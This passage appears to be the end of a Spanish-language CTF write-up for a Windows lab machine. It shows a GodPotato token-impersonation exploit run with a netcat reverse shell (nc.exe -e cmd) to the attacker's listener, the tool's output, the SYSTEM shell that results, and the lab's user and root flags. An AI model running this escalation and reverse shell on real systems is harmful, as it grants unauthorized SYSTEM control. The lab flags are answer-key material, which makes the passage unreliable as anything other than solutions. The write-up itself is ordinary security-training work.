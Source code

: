 ```
GodPotato-NET4.exe -cmd "cmd /C nc.exe 192.168.1.146 5555 -e cmd"
[*] CombaseModule: 0x140727345217536
[*] DispatchTable: 0x140727347535088
[*] UseProtseqFunction: 0x140727346910368
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\4781d7c3-9f8e-4ea7-b530-e297ddebeced\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009c02-0624-ffff-2599-14d0536a8676
[*] DCOM obj OXID: 0x1471f84a006fae85
[*] DCOM obj OID: 0xd832b5be2b0aa39
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\Servicio de red
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 740 Token:0x836  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2000
```

Ahora si volvemos donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 5555 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.156] 49731
Microsoft Windows [Versi�n 10.0.17763.107]
(c) 2018 Microsoft Corporation. Todos los derechos reservados.

C:\Users\Public\Downloads>whoami
whoami
nt authority\system
```

Por lo que vemos ya seremos `Administradores`, ahora vamos a leer las flags del `admin` y usuario.

> user.txt

```
SIMPLE{ASPXT0SH311}
```

> root.txt

```
SIMPLE{S31MP3R50N4T3PR1V1L363}
```
